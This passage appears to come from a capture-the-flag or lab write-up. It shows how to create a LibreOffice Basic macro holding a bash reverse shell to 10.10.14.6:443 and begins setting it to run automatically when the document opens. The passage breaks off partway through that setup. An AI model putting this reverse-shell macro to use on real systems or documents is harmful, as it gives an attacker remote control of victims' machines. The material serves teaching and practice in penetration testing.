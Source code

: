 This pops a dialog asking for a name, and then opens the macro editor:

![image-20231024212258047](../img/image-20231024212258047.png)

I’ll add a simple reverse shell:

    
    
    Sub Main
    
    	shell("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")
    
    End Sub
    

![image-20231026065556394](../img/image-20231026065556394.png)

To get this to run automatically on opening, I’ll close the Macro editor and
in the document window go to “Tools” > “Customize”. In the window that opens,
I’ll go to the “Events” tab, click on “Open Document” and then “Macro…”:
